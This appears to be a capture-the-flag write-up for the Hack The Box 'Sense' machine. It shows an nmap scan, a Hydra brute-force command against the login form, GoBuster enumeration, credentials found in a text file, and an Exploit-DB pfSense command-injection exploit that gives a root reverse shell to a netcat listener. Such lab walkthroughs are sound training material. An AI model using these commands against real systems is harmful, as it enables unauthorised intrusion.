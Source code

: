 `Box: Linux`
`Level: Easy`
### Index
1. [[#Box Info]]
2. [[#Initial Nmap Scan]]
3. [[#`Web`]]
	1. [[#`Hydra to bruteforce login page`]]
	2. [[#`Directory and File Enumeration using GoBuster`]]
	3. [[#`pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection`]]

### `Box Info`
```
Sense, while not requiring many steps to complete, can be challenging for some as the proof of concept exploit that is publicly available is very unreliable. An alternate method using the same vulnerability is required to successfully gain access.
```

### `Initial Nmap Scan`
```
PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-title: Did not follow redirect to https://sense.htb/
|_http-server-header: lighttpd/1.4.35
443/tcp open  ssl/http lighttpd 1.4.35
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: lighttpd/1.4.35
|_http-title: 501
|_ssl-date: TLS randomness does not represent time
```

### `Web`
###### `Hydra to bruteforce login page`
```
 hydra -l admin -P /usr/share/wordlists/seclists/Passwords/500-worst-passwords.txt  10.10.10.60 http-post-form "/index.php:usernamefld=^USER^&passwordfld=^PASS^:Username or Password incorrect"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-01 21:16:16
[DATA] max 16 tasks per 1 server, overall 16 tasks, 499 login tries (l:1/p:499), ~32 tries per task
[DATA] attacking http-post-form://10.10.10.60:80/index.php:usernamefld=^USER^&passwordfld=^PASS^:Username or Password incorrect
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-01 21:17:14
```

###### `Directory and File Enumeration using GoBuster`
```
# gobuster dir -u https://10.10.10.60/ -k -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,conf,zip,inc,tar -b 403,404
/index.php            (Status: 200) [Size: 6690]
/help.php             (Status: 200) [Size: 6689]
/themes               (Status: 301) [Size: 0] [--> https://10.10.10.60/themes/]
/stats.php            (Status: 200) [Size: 6690]
/css                  (Status: 301) [Size: 0] [--> https://10.10.10.60/css/]
/edit.php             (Status: 200) [Size: 6689]
/includes             (Status: 301) [Size: 0] [--> https://10.10.10.60/includes/]
/license.php          (Status: 200) [Size: 6692]
/system.php           (Status: 200) [Size: 6691]
/status.php           (Status: 200) [Size: 6691]
/javascript           (Status: 301) [Size: 0] [--> https://10.10.10.60/javascript/]
/classes              (Status: 301) [Size: 0] [--> https://10.10.10.60/classes/]
/exec.php             (Status: 200) [Size: 6689]
/widgets              (Status: 301) [Size: 0] [--> https://10.10.10.60/widgets/]
/graph.php            (Status: 200) [Size: 6690]
/tree                 (Status: 301) [Size: 0] [--> https://10.10.10.60/tree/]
/wizard.php           (Status: 200) [Size: 6691]
/shortcuts            (Status: 301) [Size: 0] [--> https://10.10.10.60/shortcuts/]
/pkg.php              (Status: 200) [Size: 6688]
/installer            (Status: 301) [Size: 0] [--> https://10.10.10.60/installer/]
/wizards              (Status: 301) [Size: 0] [--> https://10.10.10.60/wizards/]
/xmlrpc.php           (Status: 200) [Size: 384]
/system-users.txt     (Status: 200) [Size: 106]

```

The directories which says `301` above were all printing HTML text that says `404 not found` upon trying. 

The file `system-user.txt` reveals the credentals
![[sense_web0.png]]

On the web `https://10.10.10.60/`, the credentials works. the password that I guessed was `pfsense`
![[sense_web1.png]]
###### `pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection`

The [Exploit-DB](https://www.exploit-db.com/exploits/43560) Exploit got us the root shell.
```
# python 43560.py --rhost 10.10.10.60 --lhost 10.10.14.8 --lport 4444 --username rohit --password pfsense
CSRF token obtained
Running exploit...
Exploit completed
```

on the netcat side
```
# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.60] 48326
sh: can't access tty; job control turned off
# id
uid=0(root) gid=0(wheel) groups=0(wheel)
# cat /root/root.txt
d*****************
```

Get your user & root flag.
